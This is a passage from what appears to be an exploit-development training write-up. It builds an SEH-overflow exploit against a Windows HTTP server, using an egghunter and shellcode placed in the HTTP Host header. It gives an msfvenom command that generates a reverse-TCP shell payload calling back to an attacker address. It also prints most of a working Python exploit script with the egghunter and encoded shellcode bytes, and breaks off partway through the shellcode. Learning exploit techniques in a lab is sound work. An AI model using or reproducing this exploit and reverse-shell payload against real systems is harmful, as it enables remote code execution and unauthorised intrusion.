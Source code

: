 ```python
s.close()
```

Checking our math, we see that after taking our negative jump, we land precisely on the beginning of our egghunter. 

![](/assets/images/CTP/correctxitami.JPG)

## End Game

The only thing left for us to do now is to somehow lodge our shellcode in the program's memory space so that our egghunter can find and execute it. I struggled here because I'd never really done this before. I had to peak at the ExploitDB PoC once again and saw that he lodged his shellcode as the value of another HTTP request header value. That's pretty sick! 

We haven't checked for badchars at this point, so if we don't get a call back it could be badchars or our shellcode not being placed in application memory. But since we're lodging this final payload into the application memory somewhere that apparently has large buffer space (notice that we didn't crash the application while fuzzing any other parameter besides `If-Modified-Since`), we can try to head off badcharacter concerns by making the shellcode alphanumeric as these chars are less likely to be bad. **We also musn't forget that our final payload ought to be prepended with two instances of 'PWNS' so that our egghunter can identify it.**

### Shellcode in HTTP Request Parameter

Let's generate our shellcode: `msfvenom -p windows/shell_reverse_tcp LPORT=443 LHOST=192.168.1.209 -f c -e x86/alpha_mixed`

Let's try stuffing it into the `Host:` parameter in our HTTP request. Our final exploit code now looks like this:
```python
import socket
import sys

host = "192.168.1.201"
port = 80

seh = "\x84\xf5\x44"
nseh = "\xeb\xcc\x90\x90"

#Tag = PWNS
egghunter = ("\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"
"\xef\xb8\x50\x57\x4e\x53\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7")

shellcode = 'PWNSPWNS'
#msfvenom -p windows/shell_reverse_tcp LPORT=443 LHOST=192.168.1.209 -f c -e x86/alpha_mixed
#710 bytes
shellcode += ("\x89\xe6\xda\xdc\xd9\x76\xf4\x5f\x57\x59\x49\x49\x49\x49\x49"
"\x49\x49\x49\x49\x49\x43\x43\x43\x43\x43\x43\x37\x51\x5a\x6a"
"\x41\x58\x50\x30\x41\x30\x41\x6b\x41\x41\x51\x32\x41\x42\x32"
"\x42\x42\x30\x42\x42\x41\x42\x58\x50\x38\x41\x42\x75\x4a\x49"
"\x49\x6c\x6b\x58\x6b\x32\x57\x70\x67\x70\x45\x50\x61\x70\x6e"
"\x69\x6d\x35\x70\x31\x4f\x30\x70\x64\x6e\x6b\x76\x30\x76\x50"
"\x4c\x4b\x50\x52\x46\x6c\x4e\x6b\x30\x52\x76\x74\x6e\x6b\x33"
```